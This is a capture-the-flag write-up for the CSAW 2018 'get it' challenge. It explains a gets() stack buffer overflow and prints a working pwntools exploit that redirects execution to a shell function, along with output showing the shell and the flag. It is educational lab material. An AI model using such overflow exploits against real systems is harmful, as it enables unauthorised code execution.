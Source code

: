 # Csaw 2018 get it pwn 50

Let's take a look at the binary:

```
$	file get_it 
get_it: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=87529a0af36e617a1cc6b9f53001fdb88a9262a2, not stripped
$	./get_it 
Do you gets it??
0000000000000000000000000000000000000000000000000000000
Segmentation fault (core dumped)
```

So this looks like it will be a fairly easy challenge. We were able to crash it by just throwing a large amount of junk at it. Looking at the C psuedocode in IDA confirms that:

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char inputChar; // [sp+10h] [bp-20h]@1

  puts("Do you gets it??");
  gets(&inputChar);
  return 0;
}
```

The bug is the call to `gets`, since it will allow us to scan an unlimited amount of data into a limited space (`input char`). Looking at the other functions in the binary, we see that we won't need to worry about shellcode / ROP Chains since there is a function we can call which will give us a shell:

```
int give_shell()
{
  return system("/bin/bash");
}
```

So now it's just a matter of overwriting the return address with the address of `give_shell()` (which is `0x4005b6`). We can also see that the space between the start of our input and the return address is `0x28` (`40`) characters:

```
-0000000000000025                 db ? ; undefined
-0000000000000024 var_24          dd ?
-0000000000000020 inputChar       db 32 dup(?)
+0000000000000000  s              db 8 dup(?)
+0000000000000008  r              db 8 dup(?)
+0000000000000010
+0000000000000010 ; end of stack variables
```

With that, we have everything we need to write the exploit:

```
# Import pwntools
from pwn import *

# Establish the target
#target = process('./get_it')
target = remote('pwn.chal.csaw.io', 9001)

# Print the initial text
print target.recvuntil("it")

# From and send the payload
payload = "0"*40 + p64(0x4005b6)
target.sendline(payload)

# Drop to an interactive shell
target.interactive()
```

and when we run the exploit:

```
$	python exploit.py 
[+] Opening connection to pwn.chal.csaw.io on port 9001: Done
            _     _ _  ___ ___ ___ 
  __ _  ___| |_  (_) ||__ \__ \__ \
 / _` |/ _ \ __| | | __|/ / / / / /
| (_| |  __/ |_  | | |_|_| |_| |_| 
 \__, |\___|\__| |_|\__(_) (_) (_) 
 |___/                             
Do you gets it
[*] Switching to interactive mode
??
0000000000000000000000000000000000000000\xb6^E@^@^@^@^@^@
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
get_it@d9dc9c92eac2:~$ $ ls
ls
art.txt  flag.txt  get_it  run.sh
get_it@d9dc9c92eac2:~$ $ cat flag.txt
cat flag.txt
flag{y0u_deF_get_itls}
get_it@d9dc9c92eac2:~$ [*] Got EOF while reading in interactive
$ 
[*] Interrupted
[*] Closed connection to pwn.chal.csaw.io port 9001
```

just like that, we captured the flag!